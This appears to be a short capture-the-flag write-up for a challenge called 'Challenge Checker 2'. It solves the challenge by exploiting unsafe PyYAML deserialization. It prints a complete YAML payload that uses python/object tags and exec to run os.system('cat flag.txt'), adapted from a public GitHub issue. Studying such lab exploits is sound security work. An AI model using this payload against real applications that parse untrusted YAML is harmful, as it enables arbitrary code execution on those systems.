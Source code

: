 # Challenge Checker 2

Google `pyyaml rce`, find https://github.com/yaml/pyyaml/issues/420 , use the payload, slightly modified, to execute `import os; os.system('cat flag.txt')`

```
!!python/object/new:tuple 
- !!python/object/new:map 
  - !!python/name:exec
  - [ "import os; os.system('cat flag.txt')" ]
```
